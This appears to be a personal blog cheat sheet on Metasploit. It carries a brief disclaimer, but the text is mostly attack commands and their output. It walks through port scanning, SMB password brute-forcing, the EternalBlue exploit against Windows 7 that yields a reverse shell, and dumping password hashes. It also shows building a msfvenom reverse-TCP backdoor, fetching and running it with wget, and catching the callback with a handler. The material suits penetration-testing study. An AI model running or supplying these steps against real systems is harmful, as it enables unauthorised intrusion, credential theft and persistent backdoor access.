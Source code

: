 title: Metasploit
date: 2024-07-10
category: security
tags: security, hacking

## Disclaimer

Do not hack any system you're not allowed to. I provide this
information in good faith, to educate the reader so that we can all
better guard against against from bad actors.

## Starting the Metasploit shell

```text
$ msfconsole
```

## Perform a port scan

```text
msf6> use auxiliary/scanner/portscan/tcp
msf6 auxiliary(scanner/portscan/tcp) > set rhosts 10.10.24.171
msf6 auxiliary(scanner/portscan/tcp) > run

[+] 10.10.24.171:         - 10.10.24.171:22 - TCP OPEN
[+] 10.10.24.171:         - 10.10.24.171:21 - TCP OPEN
[+] 10.10.24.171:         - 10.10.24.171:139 - TCP OPEN
[+] 10.10.24.171:         - 10.10.24.171:445 - TCP OPEN
[+] 10.10.24.171:         - 10.10.24.171:8000 - TCP OPEN
[*] 10.10.24.171:         - Scanned 1 of 1 
```

This shows why you should have a firewall.

## Cracking a Windows user's password

This assumes the user `lisa`'s password is in `/tmp/huge-list-of-passwords.txt`:


```text
msf6> use auxiliary/scanner/smb/smb_login
msf6 auxiliary(scanner/smb/smb_login) > set rhosts 192.168.1.4
msf6 auxiliary(scanner/smb/smb_login) > set smbuser lisa
msf6 auxiliary(scanner/smb/smb_login) > set pass_file /tmp/huge-list-of-passwords.txt
msf6 auxiliary(scanner/smb/smb_login) > run
..
[+] 10.10.24.171:445      - 10.10.24.171:445 - Success: '.\lisa:love123'
```

This shows how important it is that users choose non-trivial
passwords.

## Figure out what's running on a given port

```text
msf6 > use auxiliary/scanner/http/http_version
msf6 auxiliary(scanner/http/http_version) > set rport 8000
msf6 auxiliary(scanner/http/http_version) > run
msf6 auxiliary(scanner/http/http_version) > run
[+] 10.10.24.171:8000 webfs/1.21 ( 403-Forbidden )
```

This shows why you should have minimal server version strings.

## Crack an unpatch Windows 7 machine

Check if the machine is vulnerable:

```text
msf6 > use auxiliary/scanner/smb/smb_ms17_010
msf6 auxiliary(scanner/smb/smb_ms17_010) > setg rhosts 10.10.162.197
rhosts => 10.10.162.197
msf6 auxiliary(scanner/smb/smb_ms17_010) > run

[+] 10.10.162.197:445     - Host is likely VULNERABLE to MS17-010! - Windows 7 Professional 7601 Service Pack 1 x64 (64-bit)
[*] 10.10.162.197:445     - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

Then load the exploit and select a payload
```text
msf6> use exploit/windows/smb/ms17_010_eternalblue
msf6 exploit(windows/smb/ms17_010_eternalblue) > show payloads
..
msf6 exploit(windows/smb/ms17_010_eternalblue) > set payload 2
payload => generic/shell_reverse_tcp
```

Finally, run the exploit:
```text
msf6 exploit(windows/smb/ms17_010_eternalblue) > exploit -z

[*] Started reverse TCP handler on 10.10.70.92:4444 
[*] 10.10.162.197:445 - Using auxiliary/scanner/smb/smb_ms17_010 as check
[+] 10.10.162.197:445     - Host is likely VULNERABLE to MS17-010! - Windows 7 Professional 7601 Service Pack 1 x64 (64-bit)
[*] 10.10.162.197:445     - Scanned 1 of 1 hosts (100% complete)
[+] 10.10.162.197:445 - The target is vulnerable.
[*] 10.10.162.197:445 - Connecting to target for exploitation.
[+] 10.10.162.197:445 - Connection established for exploitation.
[+] 10.10.162.197:445 - Target OS selected valid for OS indicated by SMB reply
[*] 10.10.162.197:445 - CORE raw buffer dump (42 bytes)
[*] 10.10.162.197:445 - 0x00000000  57 69 6e 64 6f 77 73 20 37 20 50 72 6f 66 65 73  Windows 7 Profes
[*] 10.10.162.197:445 - 0x00000010  73 69 6f 6e 61 6c 20 37 36 30 31 20 53 65 72 76  sional 7601 Serv
[*] 10.10.162.197:445 - 0x00000020  69 63 65 20 50 61 63 6b 20 31                    ice Pack 1      
[+] 10.10.162.197:445 - Target arch selected valid for arch indicated by DCE/RPC reply
[*] 10.10.162.197:445 - Trying exploit with 12 Groom Allocations.
[*] 10.10.162.197:445 - Sending all but last fragment of exploit packet
[*] 10.10.162.197:445 - Starting non-paged pool grooming
[+] 10.10.162.197:445 - Sending SMBv2 buffers
[+] 10.10.162.197:445 - Closing SMBv1 connection creating free hole adjacent to SMBv2 buffer.
[*] 10.10.162.197:445 - Sending final SMBv2 buffers.
[*] 10.10.162.197:445 - Sending last fragment of exploit packet!
[*] 10.10.162.197:445 - Receiving response from exploit packet
[+] 10.10.162.197:445 - ETERNALBLUE overwrite completed successfully (0xC000000D)!
[*] 10.10.162.197:445 - Sending egg to corrupted connection.
[*] 10.10.162.197:445 - Triggering free of corrupted buffer.
[*] Command shell session 1 opened (10.10.70.92:4444 -> 10.10.162.197:49165) at 2024-07-10 09:17:58 +0100
[+] 10.10.162.197:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[+] 10.10.162.197:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-WIN-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[+] 10.10.162.197:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[*] Session 1 created in the background.
msf6 exploit(windows/smb/ms17_010_eternalblue) > 
```

Now, attach to the backdoor:
```text
msf6 exploit(windows/smb/ms17_010_eternalblue) > sessions

Active sessions
===============

  Id  Name  Type               Information                          Connection
  --  ----  ----               -----------                          ----------
  1         shell x64/windows  Shell Banner: Microsoft Windows [Ve  10.10.70.92:4444 -> 10.10.162.197:4
                               rsion 6.1.7601] -----                9165 (10.10.162.197)

msf6 exploit(windows/smb/ms17_010_eternalblue) > sessions -i 1
[*] Starting interaction with 1...


Shell Banner:
Microsoft Windows [Version 6.1.7601]
-----
          

C:\Windows\system32>
```


Get the pasword hashes by upgrading the shell session to a meterpreter session:

```text
msf6> sessions -u 1
msf6> sessions -l

Active sessions
===============

  Id  Name  Type                     Information                       Connection
  --  ----  ----                     -----------                       ----------
  1         shell x64/windows        Shell Banner: Microsoft Windows   10.10.70.92:4444 -> 10.10.162.19
                                     [Version 6.1.7601] -----          7:49165 (10.10.162.197)
  2         meterpreter x64/windows  NT AUTHORITY\SYSTEM @ JON-PC      10.10.70.92:4433 -> 10.10.162.19
                                                                       7:49188 (10.10.162.197)

```

Now, use that new session to gather the hashes 

```
msf6> use post/windows/gather/hashdump
msf6 post(windows/gather/hashdump) > set session 2 
session => 2
msf6 post(windows/gather/hashdump) > run

[*] Obtaining the boot key...
[*] Calculating the hboot key using SYSKEY 55bd17830e678f18a3110daf2c17d4c7...
[*] Obtaining the user list and keys...
[*] Decrypting user keys...
[*] Dumping password hints...

No users with password hints on this system

[*] Dumping password hashes...

Administrator:500:fsadf:afdafds:::
Guest:501:asdfasfd:sdfafds:::
john:1001:asdfads:asdfadfs:::

[*] Post module execution completed
msf6 post(windows/gather/hashdump) >
```

## Get access to a Linux by installing a backdoor

First, create the backdoor software, aka a _payload_:
```text
# msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=192.168.1.198 LPORT=5555 -f elf > backdoor.elf
# python -m http.server
```

Where `192.168.1.198` is the machine and `5555` the port, where you
want the backdoor to call back to.

Now, get the `backdoor.elf` installed and run on the other Linux machine:
```
$ wget http://192.168.1.198:8000/backdoor.elf
$ chmod +x backdoor.elf
$ ./backdoor.elf
```

Now, on your machine, load an exploit that allows to spawn a shell via
the backdoor:
```text
$ msfconsole
msf6 > use exploit/multi/handler
msf6 exploit(multi/handler) > set lhost 10.10.130.198
msf6 exploit(multi/handler) > use lport 5555
msf6 exploit(multi/handler) > set payload linux/x86/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > run
```

And with that, you should have a shell on the other machine via the backdoor:
```text
msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 10.10.130.198:5555 
[*] Sending stage (1017704 bytes) to 10.10.125.85
[*] Meterpreter session 1 opened (10.10.130.198:5555 -> 10.10.125.85:42224) at 2024-07-15 04:55:49 +0100

meterpreter > 
```

Now, you can run whatever post modules you want, like dumping the password hashes:
```text
meterpreter > bacground
msf6 exploit(multi/handler) > use post/linux/gather/hashdump
msf6 post(linux/gather/hashdump) > set session 1
session => 1
msf6 post(linux/gather/hashdump) > run
```

You should now have a listing of all the password hashes on the
machine.

